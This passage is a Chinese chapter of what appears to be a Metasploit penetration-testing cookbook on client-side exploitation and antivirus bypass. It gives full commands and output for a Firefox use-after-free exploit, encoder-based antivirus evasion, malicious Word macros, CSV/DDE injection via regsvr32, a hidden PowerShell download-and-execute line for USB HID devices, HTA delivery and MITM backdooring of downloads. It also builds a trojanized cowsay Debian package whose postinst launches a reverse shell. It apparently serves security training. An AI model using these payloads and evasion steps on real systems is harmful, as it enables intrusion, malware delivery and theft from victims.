## 16 客户端利用与防病毒绕过

本章将介绍以下教程：

- 利用 Windows 10 机器
- 绕过防病毒软件和 IDS/IPS
- Metasploit 宏利用
- 人机接口设备攻击
- HTA 攻击
- 使用 MITM 攻击后门化可执行文件
- 创建 Linux 木马
- 创建 Android 后门

## 简介

在之前的章节中，我们专注于服务器端利用。如今，最成功的攻击针对的是终端；原因在于，随着大部分安全预算和关注点都放在面向互联网的服务器和服务上，找到可利用的服务变得越来越困难，或者至少是那些尚未被入侵或修补过的服务。然而，当我们获得对客户端机器的访问权限时，情况就不同了，操作系统可能已全部更新，但这并不适用于机器上运行的所有软件。

## 利用 Windows 10 机器

本教程中，我们将利用存在于 Microsoft Windows 上多个版本 Mozilla Firefox 中的 nsSMILTimeContainer::NotifyTimeChange() 中的 use-after-free 漏洞。

### 准备工作

因此，在开始之前，我们需要从 https://ftp.mozilla.org/pub/firefox/releases/41.0/win32/en-US/Firefox%20Setup%2041.0.exe 下载 Mozilla Firefox 41.0 并将其安装在我们的 Windows 10 目标机器上。

### 操作方法...

正如一贯所说，良好的侦察至关重要，因此我们首先需要收集受害者使用的浏览器信息。

1. 为帮助完成此任务，我们可以使用 HTTP 客户端信息收集辅助模块，通过指定要监听的主机 IP 地址和端口以及要使用的 URI，然后使用您喜欢的借口之一让受害者打开链接：

```
msf > use auxiliary/gather/browser_info
msf auxiliary(gather/browser_info) > set SRVHOST 192.168.216.5
SRVHOST => 192.168.216.5
msf auxiliary(gather/browser_info) > set SRVPORT 80
SRVPORT => 80
msf auxiliary(gather/browser_info) > set URIPATH /
URIPATH => /
msf auxiliary(gather/browser_info) > run
[*] Auxiliary module running as background job 1.
msf auxiliary(gather/browser_info) >
[*] Using URL: http://192.168.216.5:80/
[*] Server started.
[*] Gathering target information for 192.168.216.150
[*] Sending HTML response to 192.168.216.150
[+] 192.168.216.150 - We have found the following interesting information:
[*] 192.168.216.150 - source = Browser allows JavaScript
[*] 192.168.216.150 - ua_name = Firefox
[*] 192.168.216.150 - ua_ver = 41.0
[*] 192.168.216.150 - arch = x86
[*] 192.168.216.150 - os_name = Windows
[*] 192.168.216.150 - language = en-US,en;q=0.5
```

2. 查看输出，我们可以看到受害者正在运行 Firefox 41.0 版本。凭借这些信息，我们可以看到可以使用 RCE 利用模块对 Firefox nsSMILTimeContainer::NotifyTimeChange() 进行利用。

3. 要使用此模块利用目标，我们首先需要设置将提供利用的主机 IP 地址和端口以及要使用的 URI，然后设置要在目标上执行的有效载荷，并且由于我们使用的是反向 shell，因此我们还需要指定监听主机 IP 地址：

```
msf auxiliary(gather/browser_info) > use exploit/windows/browser/firefox_smil_uaf
msf exploit(windows/browser/firefox_smil_uaf) > set SRVHOST 192.168.216.5
SRVHOST => 192.168.216.5
msf exploit(windows/browser/firefox_smil_uaf) > set SRVPORT 80
SRVPORT => 80
msf exploit(windows/browser/firefox_smil_uaf) > set URIPATH /
URIPATH => /
msf exploit(windows/browser/firefox_smil_uaf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/browser/firefox_smil_uaf) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(windows/browser/firefox_smil_uaf) > exploit
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.216.5:4444
msf exploit(windows/browser/firefox_smil_uaf) >
[*] Using URL: http://192.168.216.5:80/
[*] Server started.
```

现在一切都已设置好，我们需要受害者浏览我们的网站——这可以通过多种方式实现，例如电子邮件、社交媒体等

4. 当受害者访问 URL 时，我们应该成功利用 use-after-free 漏洞并在访问 URL 的用户上下文中获得一个新的会话。

请注意，为了防止用户关闭浏览器时丢失会话，该模块使用 post/windows/manage/priv_migrate 后利用模块迁移到 explorer.exe 进程。

## 绕过防病毒软件和 IDS/IPS

随着时间的推移，Metasploit 成为用于利用的工具，安全厂商开始检测并阻止利用程序运行。正如我们在上一章中所看到的，其中一些是通过检测所使用的编码器来实现的，其他一些则简单地通过检测用于加密有效载荷与监听器之间通信的默认证书来实现。绕过这些解决方案的一种方法是结合使用自定义编码器和受信任的证书。

### 操作方法...

本教程中，我们将结合多种绕过技术，以便成功绕过防病毒软件和 IDS/IPS 解决方案。

1. 首先，我们将使用上一章中使用的 bf_xor 自定义编码器创建有效载荷；这样可以确保寻找默认编码器的解决方案不会将我们的有效载荷标记为恶意软件：

```
root@Metasploit:~# msfvenom -p windows/meterpreter/reverse_https LHOST=zinitiative.com LPORT=443 HandlerSSLCert=./unified.pem StagerVerifySSLCert=true -f exe -e x86/bf_xor -o bypass.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/bf_xor
x86/bf_xor succeeded with size 1259 (iteration=0)
x86/bf_xor chosen with final size 1259
Payload size: 1259 bytes
```


```
Final size of exe file: 73802 bytes
Saved as: bypass.exe
```

2. 接下来，我们将使用上一章使用 Let’s Encrypt 创建的可信证书，用于 Meterpreter HTTPS 传输：

```
root@Metasploit:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD
windows/meterpreter/reverse_winhttps
PAYLOAD => windows/meterpreter/reverse_winhttps
msf exploit(multi/handler) > set LHOST zinitiative.com
LHOST => zinitiative.com
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > set HANDLERSSLCERT
/root/unified.pem
HANDLERSSLCERT => /root/unified.pem
msf exploit(multi/handler) > set StagerVerifySSLCert
true
StagerVerifySSLCert => true
msf exploit(multi/handler) > set EnableStageEncoding
true
EnableStageEncoding => true
msf exploit(multi/handler) > exploit

[*] Meterpreter will verify SSL Certificate with
SHA1 hash a408ac31831f41f50aa823cba7a0259ec32a2c9a
[*] Started HTTPS reverse handler on
https://45.55.45.143:443
```

3. 现在，我们只需要在目标机器上运行有效载荷：

```
[*] https://zinitiative.com:443 handling request from
89.114.197.227; (UUID: wsfkfmsz) Meterpreter will
verify SSL Certificate with SHA1 hash
a408ac31831f41f50aa823cba7a0259ec32a2c9a
[*] https://zinitiative.com:443 handling request from
89.114.197.227; (UUID: wsfkfmsz) Encoded stage with
x86/shikata_ga_nai
[*] https://zinitiative.com:443 handling request from
89.114.197.227; (UUID: wsfkfmsz) Staging x86 payload
(180854 bytes) ...
[*] Meterpreter session 1 opened (45.55.45.143:443 ->
89.114.197.227:43597) at 2017-12-23 12:03:59 +0000
```

```
meterpreter > getuid
Server username: WINDOWS10\User
meterpreter >
```

很好，如我们所见，有效载荷未被检测到，我们在目标机器上获得了一个新的会话。在测试漏洞利用时如果被安全解决方案捕获，应用相同的原则，创建一个自定义有效载荷并使用它与 set PAYLOAD generic/custom 选项。


随着时间的推移，本书中展示的自定义编码器也会被安全解决方案标记，但这不应该成为问题；只需对编码器做一些简单的更改或创建自己的编码器，您就应该能够规避生成的签名。

## Metasploit 宏漏洞利用

宏攻击可能是入侵客户端机器时最常用的方法之一，并且由于宏用于业务相关任务，它们将长期存在。

### 如何操作...

- 1. 在本教程中，我们将使用 Microsoft Office Word 恶意宏执行漏洞利用模块向 Microsoft Office Word 文档注入恶意宏：

```
msf > use exploit/multi/fileformat/office_word_macro
msf exploit(multi/fileformat/office_word_macro) >
set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(multi/fileformat/office_word_macro) >
set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(multi/fileformat/office_word_macro) >
set LPORT 443
LPORT => 443
msf exploit(multi/fileformat/office_word_macro) >
exploit

[*] Using template: /usr/share/metasploit-framework/data/exploits/office_word_macro/template.docx
```

```
[*] Injecting payload in document comments
[*] Injecting macro and other required files
in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /root/.msf4/local/msf.docm
msf exploit(multi/fileformat/office_word_macro) >
```

2. 接下来，我们将使用 handler 命令作为作业启动有效载荷处理程序，使用 -p 指定有效载荷、-H 指定监听 IP 地址以及 -P 指定监听端口：

```
msf exploit(multi/fileformat/office_word_macro) >
handler -p windows/meterpreter/reverse_https -H 192.168.216.5 -P 443
[*] Payload handler running as background job 0.

[*] Started HTTPS reverse handler on https://192.168.216.5:443
msf exploit(multi/fileformat/office_word_macro) >
```

然后将 Word 文档复制到目标机器，打开它，并记得启用宏：

> 注意！此文档是由较新版本的 Microsoft Office 创建的。必须启用宏才能显示文档内容。

回到 Kali 机器，我们应该会看到一个新的会话：

```
msf exploit(multi/fileformat/office_word_macro) >
[*] https://192.168.216.5:443 handling request from 192.168.216.151; (UUID: 9nexcb2v)
Staging x86 payload (180825 bytes)...
[*] Meterpreter session 1 opened (192.168.216.5:443 -> 192.168.216.151:49807) at 2017-12-23 09:17:13 -0500
```

```
msf exploit(multi/fileformat/office_word_macro) >
sessions 1
[*] Starting interaction with 1...
```

```
meterpreter > getuid
Server username: WINDOWS10\User
meterpreter >
```

3. 为了利用 CSV 注入，我们将使用 Script Web Delivery 漏洞利用模块。首先，我们使用 set TARGET 3 命令将目标设置为 regsvr32，然后设置服务器的监听主机和 URI，并指定要使用的有效载荷，后跟有效载荷的监听主机和端口：

```
msf > use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) >
set TARGET 3
TARGET => 3
msf exploit(multi/script/web_delivery) >
set URIPATH /
URIPATH => /
msf exploit(multi/script/web_delivery) >
set SRVHOST 192.168.216.5
SRVHOST => 192.168.216.5
msf exploit(multi/script/web_delivery) >
set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(multi/script/web_delivery) >
set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(multi/script/web_delivery) >
set LPORT 443
LPORT => 443
msf exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.

[*] Started HTTPS reverse handler on
https://192.168.216.5:443
[*] Using URL: http://192.168.216.5:8080/
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u
/i:http://192.168.216.5:8080/.sct scrobj.dll
```

动态数据交换 (DDE) 使用以下格式：

```
=DDE(server; file; item; mode)
```

4. 因此，要创建一个简单的概念验证，我们可以创建一个具有以下内容的 CSV 文件：

```
=MSEXCEL|'\\..\\..\\..\\Windows\\System32\\calc.exe'!''
```

这将打开 calc.exe。由于打开计算器对我们的目的没有用，在我们的恶意 CSV 文件中，我们将使用 regsvr32 下载并运行我们的有效载荷并返回一个反向 shell：

```
=MSEXCEL|'\\..\\..\\..\\Windows\\System32\\regsvr32 /s /n /u /i:http://192.168.216.5:8080/.sct scrobj.dll'!''
```

5. 现在我们有了恶意 CSV 文件，我们只需要将其发送到目标机器并用 Excel 打开。当打开文件时，我们会收到两个警告消息：



虽然这样的消息看起来可能很可疑，但大多数用户只是想让它们消失。



6. 虽然这不是最隐蔽的攻击，但你会惊讶于有多少用户会在不经思考的情况下点击启用和是：

```
msf exploit(multi/script/web_delivery) >
[*] 192.168.216.151 web_delivery - Handling
.sct Request
[*] 192.168.216.151 web_delivery - Delivering Payload
[*] https://192.168.216.5:443 handling
request from 192.168.216.151; (UUID: f84nian0)
Staging x86 payload (180825 bytes) ...
[*] Meterpreter session 1 opened (192.168.216.5:443 -> 192.168.216.151:50109) at 2017-12-23 09:37:56 -0500
```

正如我们在 Metasploit 中预期的那样，我们有一个新的会话。

### 还有更多...

从宏到 CSV 注入，当 Microsoft Excel 用于打开 CSV 时，任何以 = 开头的单元格都将被软件解释为公式，因为 Excel 提供了用于进程间通信的 DDE 协议，我们利用它在 Excel 窗口中执行命令。

## 人机接口设备攻击

物理攻击是最有效且最危险的，其中人机接口设备 (HID) 攻击是我最喜欢的之一。要入侵客户端，您只需插入一个预编程的 USB 闪存盘，该闪存盘被读取为 HID，在本例中是一个键盘，它将键入并执行有效载荷。


## 准备就绪

有多种硬件选项可供使用，从简单的 Android 手机到诸如 Teensy USB HID 等定制硬件，您可以在 https://www.pjrc.com/ 上订购；可在 https://hakshop.com 获取的 USB Rubber Ducky；或来自 https://github.com/whid-injector/WHID 的 Cactus WHID。

## 如何操作...

- 1. 虽然可以运行基本的无分级有效载荷，但在我的经验中，使用 Script Web Delivery 漏洞模块的分级有效载荷已被证明是使用 HID 设备投递有效载荷的一种可靠方法：

```
msf > use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) >
set TARGET 2
TARGET => 2
msf exploit(multi/script/web_delivery) >
set SRVHOST 192.168.216.5
SRVHOST => 192.168.216.5
msf exploit(multi/script/web_delivery) >
set SRVPORT 80
SRVPORT => 80
msf exploit(multi/script/web_delivery) >
set URIPATH /
URIPATH => /
msf exploit(multi/script/web_delivery) >
set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(multi/script/web_delivery) >
set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(multi/script/web_delivery) >
set LPORT 8443
LPORT => 8443
msf exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 1.

[*] Started HTTPS reverse handler on
https://192.168.216.5:8443
[*] Using URL: http://192.168.216.5:80/
[*] Server started.
[*] Run the following command on the
target machine:
powershell.exe -nop -w hidden -c $P=new-object
```

```
net.webclient;$P.proxy=[Net.WebRequest]::GetSystemWebProxy();
$P.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $P.downloadstring
('http://192.168.216.5/');
```

- 2. 现在，使用我们首选的 HID 设备所需做的就是输入以下命令：

```
powershell.exe -nop -w hidden -c $P=new-object
net.webclient;$P.proxy=[Net.WebRequest]::GetSystemWebProxy();
$P.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $P.downloadstring
('http://192.168.216.5/');
```

将 HID 设备插入目标机器时，它将使用 windows + R 打开“运行”对话框，我们输入命令：



这应该会给我们一个新的会话，如下所示：

```
[*] 192.168.216.151 web_delivery - Delivering Payload
[*] https://192.168.216.5:8443 handling request from
192.168.216.151; (UUID: xmienekf) Staging x86 payload
(180825 bytes) ...
[*] Meterpreter session 1 opened (192.168.216.5:8443
-> 192.168.216.151:50955) at 2017-12-23 11:21:45 -0500
```

## HTA 攻击

HTML Application (HTA) 是一种 HTML Microsoft Windows 程序，能够运行脚本语言，例如 VBScript 或 JScript。Metasploit HTA Web Server 漏洞模块托管一个 HTA，打开时通过 PowerShell 运行有效载荷。

## 如何操作...

使用时，只需设置服务器的 IP、自定义 URI、要执行的有效载荷以及侦听器的 IP：

```
root@kali:~# msfconsole -q
msf > use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) >
set SRVHOST 192.168.216.5
SRVHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) >
set URIPATH form
URIPATH => form
msf exploit(windows/misc/hta_server) >
set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(windows/misc/hta_server) >
set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.

[*] Started HTTPS reverse handler on
https://192.168.216.5:8443
[*] Using URL: http://192.168.216.5:8080/form
[*] Server started.
```

当受害者浏览 HTA 文件时，在有效载荷执行之前 IE 会提示两次：



请注意此处显示的发布者名称；由于 mshta.exe 是签名的 Windows 应用程序，大多数用户会信任它并允许其运行：



这就是为什么使用为受害者定制的 URI 而不是随机 URI 可以获得更好效果的原因。

## 使用 MITM 攻击后门化可执行文件

在本教程中，您将学习如何使用中间人 (MITM) 攻击对可执行文件进行后门植入。在从在线来源下载软件时，您应始终小心并验证下载的软件是否未在传输过程中被对手篡改。

## 准备就绪

在本教程中，我们将使用 MITM 框架进行 MITM 攻击，对 Windows 10 目标机器执行 ARP 欺骗攻击，使用 SSLstrip 透明劫持网络上的 HTTP 流量，并将 HTTPS 链接映射为类似的 HTTP 链接，然后使用 Backdoor Factory 对通过 HTTP 发送的可执行文件进行后门植入。

在开始之前，我们需要下载并安装最新版本的 MITM 框架；我们首先使用以下命令下载所有外部库和依赖项：

```
apt install python-dev python-setuptools libpcap0.8-dev
libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev
libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file
```

然后，我们克隆 MITM 框架仓库，进入目录，初始化并克隆 repos 子模块，并安装依赖项：

```
git clone https://github.com/byt3bl33d3r/MITMf
cd MITMf && git submodule init && git submodule update --recursive
pip install -r requirements.txt
```

最后，我们需要编辑 config/mitmf.conf 配置文件，并将主机 IP 地址更改为与我们的 Kali Linux 机器的 IP 地址相匹配：



现在我们已经安装并配置了 MITM 框架，我们准备开始 ARP 毒化攻击并修补一些可执行文件。

## 如何操作...

在运行 MITM 框架之前，我们需要启动 `msfconsole` 并加载 `MSGRPC` 插件，其密码在 MITM 框架配置文件中配置；在本示例中，默认密码为 `abc123`。

- 1. 我们使用 `MSGRPC` 启动 RPC 服务，使 MITM 框架能够使用 **远程过程调用 (RPC)** 来配置和运行模块：



- 2. 在新的终端中，我们将使用以下参数使用 MITM 框架：

- -i 指定要监听的接口
- --spoof 加载 `spoof` 插件
- --arp 使用 ARP 欺骗重定向流量
- --hsts 加载 `SSLstrip+` 插件
- --gateway 指定网关 IP 地址
- --target 指定要中毒的主机的 IP 地址（如果省略，将默认为子网）
- --filepwn 加载 `filepwn` 插件

后门可执行文件通过 Backdoor Factory 通过 HTTP 发送：



- 3. 现在，当受害者下载可执行文件时，在本示例中为 http://live.sysinternals.com/Desktops.exe 上的 Desktops.exe，二进制文件将被修补，我们将获得一个新的会话。由于我们使用的是 SSLstrip，即使站点尝试将用户重定向到 HTTPS，我们也应该能够降级 HTTPS 会话并修补二进制文件，如以下屏幕截图所示：



- 4. 回到运行 msfconsole 的终端，我们应该会看到受害者机器上运行的新会话：



- 5. 在受害者机器上，用户不知道软件已被修补，因为程序在没有任何明显问题的情况下运行：



## 创建 Linux 木马

客户端攻击和木马并不仅限于 Windows。在本教程中，我们将创建一个 Linux 有效载荷，并将其放置在 Debian 包中。

## 如何操作...

- 1. 首先，我们需要下载要放置有效载荷的包；在本教程中我们将使用 `cowsay`，这是一个简单的程序，可生成一头 ASCII 奶牛说出用户提供的内容的图片：

```
root@kali:~# apt --download-only install cowsay
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following packages were automatically installed
and are no longer required:
    python-brotlipy python-cssutils python-typing
Use 'apt autoremove' to remove them.
Suggested packages:
    filters cowsay-off
The following NEW packages will be installed:
    cowsay
0 upgraded, 1 newly installed, 0 to remove and 980
not upgraded.
Need to get 20.1 kB of archives.
After this operation, 90.1 kB of additional disk space
will be used.
Get:1 http://archive-4.kali.org/kali kali-rolling/main
amd64 cowsay all 3.03+dfsg2-4 [20.1 kB]
Fetched 20.1 kB in 1s (15.2 kB/s)
Download complete and in download only mode
root@kali:~#
```

- 2. 现在我们已经下载了包，我们将把包解压到名为 `cowsay` 的新目录中：

```
root@kali:~# dpkg -x /var/cache/apt/archives/cowsay_3.03+dfsg2-4_all.deb cowsay
```


- 3. Debian 包必须遵循严格的目录结构，因此我们需要在程序的源目录下创建一个名为 DEBIAN 的子目录：

```
root@kali:~/trojan# mkdir cowsay/DEBIAN
root@kali:~/trojan# cd cowsay/DEBIAN/
```

- 4. 接下来，我们需要创建 control 文件，它是 Debian 包的核心，包含所有相关元数据，例如包名、版本、支持的架构和依赖项：

```
root@kali:~/cowsay/DEBIAN# cat control
Package: cowsay
Version: 3.03+dfsg2-4
Architecture: all
Maintainer: Francois Marier <francois@debian.org>
Installed-Size: 90
Depends: perl
Suggests: filters
Section: games
Priority: optional
Homepage: http://www.nog.net/~tony/warez
Description: configurable talking cow
  Cowsay (or cowthink) will turn text into happy
  ASCII cows, with speech (or thought) balloons.
  If you don't like cows, ASCII art is available to replace
  it with some other creatures (Tux, the BSD
daemon, dragons, and a plethora of animals, from a
  turkey to an elephant in a snake).
```

- 5. 然后我们将创建一个名为 postinst 的 post-installation 文件，它将为我们的 payload 添加适当的权限，该 payload 将称为 cowsay_trojan，并执行它：

```
root@kali:~/cowsay/DEBIAN# cat postinst
chmod 2755 /usr/games/cowsay_trojan && /usr/games/cowsay_trojan & /usr/games/cowsay Welcome
```

- 6. 现在我们已经有了所有必需的文件，将使用 msfvenom 生成 payload：

```
root@kali:~/cowsay/DEBIAN# msfvenom -a x64
--platform linux -p linux/x64/shell/reverse_tcp
LHOST=192.168.216.5 -b "\x00" -f elf -o
/root/cowsay/usr/games/cowsay_trojan
Found 2 compatible encoders
Attempting to encode payload with 1 iterations
of generic/none
generic/none failed with Encoding failed due to
a bad character (index=56, char=0x00)
Attempting to encode payload with 1 iterations
of x64/xor
x64/xor succeeded with size 167 (iteration=0)
x64/xor chosen with final size 167
Payload size: 167 bytes
Final size of elf file: 287 bytes
Saved as: /root/cowsay/usr/games/cowsay_trojan
root@kali:~/cowsay/DEBIAN#
```

- 7. 在构建新包之前，我们需要使用 chmod 命令使 postinst 文件可执行。构建包时，我们使用带有 --build 选项的 dpkg-deb 命令，后跟程序源目录的路径：

```
root@kali:~/cowsay/DEBIAN# chmod 755 postinst
root@kali:~/cowsay/DEBIAN# dpkg-deb --build /root/cowsay/
dpkg-deb: building package 'cowsay' in
'/root/cowsay.deb'.
root@kali:~/cowsay/DEBIAN#
```

- 8. 为了测试我们的木马，我们将在新的终端窗口中使用带有 -x 选项的 msfconsole 启动一个监听器，该选项允许我们将字符串指定为控制台命令：

```
root@kali:~# msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD linux/x64/shell/reverse_tcp; set LHOST 192.168.216.5; run'
PAYLOAD => linux/x64/shell/reverse_tcp
LHOST => 192.168.216.5
[*] Started reverse TCP handler on 192.168.216.5:4444
```


使用 msfconsole 的 -x 选项可以节省您一些时间，并允许您从脚本启动 msfconsole。

- 9. 由于 Kali 本身就是一台 Linux 客户端机器，我们只需切换到主目录并使用 dpkg 命令安装 cowsay 程序即可测试木马：

```
root@kali:~/cowsay/DEBIAN# cd
root@kali:~# dpkg -i cowsay.deb
```

```
Selecting previously unselected package cowsay.
(Reading database ... 329750 files and directories currently installed.)
Preparing to unpack cowsay.deb ...
Unpacking cowsay (3.03+dfsg2-4) ...
Setting up cowsay (3.03+dfsg2-4) ...
< Welcome >
      \ ^__^
       \ (oo)\_______
          (__)\       )\/\
              ||----w |
              ||     ||
Processing triggers for man-db (2.7.6.1-2) ...
root@kali:~#
```

- 10. 果然，在我们运行监听器的终端中，应该会看到一个新的会话，该会话由我们的 Linux 木马生成：

```
root@kali:~# msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD linux/x64/shell/reverse_tcp; set LHOST 192.168.216.5; run'
PAYLOAD => linux/x64/shell/reverse_tcp
LHOST => 192.168.216.5
[*] Started reverse TCP handler on 192.168.216.5:4444
[*] Sending stage (38 bytes) to 192.168.216.5
[*] Command shell session 1 opened (192.168.216.5:4444 -> 192.168.216.5:34642) at 2017-12-26 11:58:54 -0500

id
uid=0(root) gid=0(root) groups=0(root)
```

## 创建 Android 后门

在本教程中，我们将为 Android 设备创建一个持久后门。由于我们的目标是创建一个受控的测试环境，我建议使用运行 Android 操作系统的虚拟机；这样我们就可以安心地测试漏洞，而不用担心问题，并且在完成后，我们可以简单地恢复虚拟机并重新开始。

### 准备工作

在本教程中我将全程使用 Android-x86；要跟随操作，请从 http://www.android-x86.org/ 网站下载 `Android-x86-5.1-rc1` ISO，如图所示，并创建一个新的虚拟机：

